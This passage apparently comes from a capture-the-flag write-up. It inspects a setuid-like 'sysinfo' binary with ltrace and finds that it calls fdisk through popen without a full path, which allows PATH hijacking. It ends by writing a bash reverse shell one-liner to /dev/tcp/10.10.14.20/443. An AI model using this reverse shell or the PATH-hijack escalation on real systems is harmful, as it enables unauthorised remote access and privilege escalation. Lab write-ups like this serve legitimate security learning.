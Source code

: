     cpuid level     : 16
    wp              : yes
    flags           : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx mmxext fxsr_opt pdpe1gb rdtscp lm constant_tsc rep_good nopl tsc_reliable nonstop_tsc cpuid extd_apicid pni pclmulqdq ssse3 fma cx16 sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand hypervisor lahf_lm extapic cr8_legacy abm sse4a misalignsse 3dnowprefetch osvw ssbd ibpb vmmcall fsgsbase bmi1 avx2 smep bmi2 rdseed adx smap clflushopt clwb sha_ni xsaveopt xsavec xsaves clzero arat overflow_recov succor
    bugs            : fxsave_leak sysret_ss_attrs spectre_v1 spectre_v2 spec_store_bypass
    bogomips        : 5988.75
    TLB size        : 3072 4K pages
    clflush size    : 64
    cache_alignment : 64
    address sizes   : 43 bits physical, 48 bits virtual
    power management:


    ====================MEM Usage=====================
                  total        used        free      shared  buff/cache   available
    Mem:           3.8G        1.0G        1.9G         34M        946M        2.6G
    Swap:          1.0G          0B        1.0G


### ltrace

Running `sysinfo` with `ltrace` prints out the calls made outside the
binary. There's a ton of output, but looking through it, there's a line
that jumps out at me:



    theseus@ubuntu:/$ ltrace sysinfo
    ...[snip]...
    popen("fdisk -l", "r")                           = 0x55e43e4e9280                 
    fgets(fdisk: cannot open /dev/loop0: Permission denied
    fdisk: cannot open /dev/loop1: Permission denied
    fdisk: cannot open /dev/loop2: Permission denied
    fdisk: cannot open /dev/loop3: Permission denied                                                   
    fdisk: cannot open /dev/loop4: Permission denied
    ...[snip]...



`popen` is another way to [open a
process](https://man7.org/linux/man-pages/man3/popen.3.md) on Linux.
The binary is making a call to `fdisk`, which is fine, except that it is
doing so without specifying the full path. This leave the binary
vulnerable to path hijacking.

### Shell

I'll create a reverse shell script in `/dev/shm`:



    theseus@ubuntu:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.20/443 0>&1'
    #!/bin/bash
